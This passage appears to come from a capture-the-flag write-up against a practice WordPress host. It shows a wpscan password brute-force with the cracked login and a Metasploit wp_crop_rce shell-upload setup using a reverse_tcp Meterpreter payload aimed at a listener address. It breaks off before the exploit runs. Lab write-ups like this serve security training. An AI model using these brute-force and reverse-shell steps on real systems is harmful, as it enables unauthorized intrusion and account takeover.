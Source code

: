 Let’s brute force the login page:

```tsx
wpscan --url blog.thm --usernames usernames.txt -P ~/Wordlists/rockyou.txt --password-attack wp-login
```

After awhile:

```tsx
[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - kwheel / cutiepie1
```

# Exploit

Start ********************metasploit******************** by typing command `msfconsole`, then search for the ********************************wordpress verion******************************** (5.0):

```tsx
msf6 > search "wordpress 5.0"

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce                    2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec       2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2  auxiliary/scanner/http/wp_registrationmagic_sqli  2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi
```

Use the first one and set the options as below:

```tsx
msf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     blog.thm         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                         /basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.9.63.75       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```